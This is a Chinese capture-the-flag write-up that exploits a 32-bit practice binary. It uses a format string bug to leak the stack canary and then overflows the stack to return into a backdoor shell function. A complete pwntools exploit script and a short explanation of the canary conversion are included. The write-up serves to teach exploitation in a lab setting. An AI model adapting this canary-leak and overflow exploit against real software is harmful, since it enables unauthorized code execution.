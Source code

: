 ![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1712920666519-6c64cadf-5582-4bda-99a5-792b765ff190.png)

查看汇编

![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1712920878264-dce563e2-280b-4711-a651-7def019cd303.png)

可以看到有两次的输入和输出，并且还存在格式化字符串漏洞

![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1712920894874-70986e57-0286-4c84-8bf6-bfcf3ffdb0b2.png)

还可以看到有后门函数

![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1712920933410-186ca743-706b-45ff-9442-0195a5fee043.png)

思路：对于这题可以用格式化字符串计算参数的便宜来泄露canary，第一个输入我们可以输入参数的偏移地址，第二个输入我们可以使用rop构造payload。

gdb动调一下：

输入aaaa，可以看到输入的字符串存在ecx寄存器的位置

![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1712922562318-f6cf1107-59af-49a2-aa1a-de6d84d57302.png)

图中能看到真实的printf参数的第一个位置和canary的位置。

![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1712923164053-0b9e7c15-a0bd-4835-8700-c29764db24d9.png)

经过计算之后可以得到canary的地址是在格式化字符串后的第31个参数

那么现在可以构造payload了

exp:

```
from pwn import*
p=process('./leak_canary')
elf=ELF('./leak_canary')
context(terminal=['tmux','split','-v'])
payload='%31$p' #这里是需要泄露的canary参数位置
p.recvuntil("someting:")  #等到接收完
p.sendline(payload)
p.recvuntil('0x')
canary=int(p.recv(8),16)
print(hex(canary))
print("-------------------------------")
payload=b'a'*100+p32(canary)+b'a'*8+b'a'*4+p32(elf.sym['shell'])
p.send(payload)
p.interactive()
```

下面是我当时对这题的不解之处的解答：

1.为什么要将接收的canary转化成int型：

这主要是因为在程序输出的时候,canary 值会被打印成一个 16 进制字符串的形式。具体步骤如下:

当程序检查栈上的 canary 值时,它实际上是以二进制的形式存储在内存中的。但是当程序将这个 canary 值输出到控制台时,为了方便人类阅读,它会被转换成 16 进制的字符串形式。所以在我们从程序输出中提取 canary 值的时候,得到的就是一个字符串,而不是原始的二进制数据。之所以要转换成字符串形式,是因为直接打印二进制数据对于人类来说非常不直观。16 进制的字符串格式更方便我们理解和处理。为了使用这个字符串形式的 canary 值,我们需要将它转换回整数,使用 int(p.recv(8), 16) 这样的函数来完成这个转换。
